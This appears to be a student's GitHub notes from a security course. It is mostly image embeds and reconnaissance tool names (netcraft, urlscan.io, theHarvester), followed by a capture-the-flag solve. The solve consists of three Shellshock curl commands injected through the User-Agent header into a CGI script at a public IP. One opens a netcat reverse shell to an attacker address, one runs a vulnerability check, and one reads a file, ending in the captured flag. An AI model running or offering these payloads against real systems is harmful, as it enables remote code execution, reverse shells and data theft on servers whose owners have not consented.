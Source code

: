 <img width="456" height="293" alt="image" src="https://github.com/user-attachments/assets/4af06be3-3a6b-4c72-9b64-edaeb9ec9e2b" />



netcraft
urlscan.io

<img width="455" height="202" alt="image" src="https://github.com/user-attachments/assets/267c1768-3b05-4fc4-bd76-afd3a9508a00" />




The harvester



<img width="431" height="209" alt="image" src="https://github.com/user-attachments/assets/fddc6972-6836-475b-ac80-ee56f535837a" />


<img width="1424" height="741" alt="image" src="https://github.com/user-attachments/assets/0a1d7d90-b50a-46c8-bc0c-6d63ee6671e1" />


------------



## week two - second day


<img width="432" height="211" alt="image" src="https://github.com/user-attachments/assets/95d5e7ad-a591-4672-a0f0-acff7e2156a7" />

---

<img width="388" height="160" alt="image" src="https://github.com/user-attachments/assets/58ff9947-f60e-4a36-9ef0-2497d8a60654" />





curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c nc 192.168.92.128 4444 -e /bin/sh' \
  'http://13.56.213.177/cgi-bin/status?_cb=1' | sed -n '1,200p'



```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo VULNTEST"' \
  'http://13.56.213.177/cgi-bin/status?_cb=1' | sed -n '1,200p'

```





```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo START; cat /home/inside; echo END"' \
  'http://13.56.213.177/cgi-bin/status?_cb=ts' | sed -n '1,200p'

```


 
```
FLAG{InSiDe_ShOcK_WaVe_StAy_HoMe_StAy_SaFe}
```










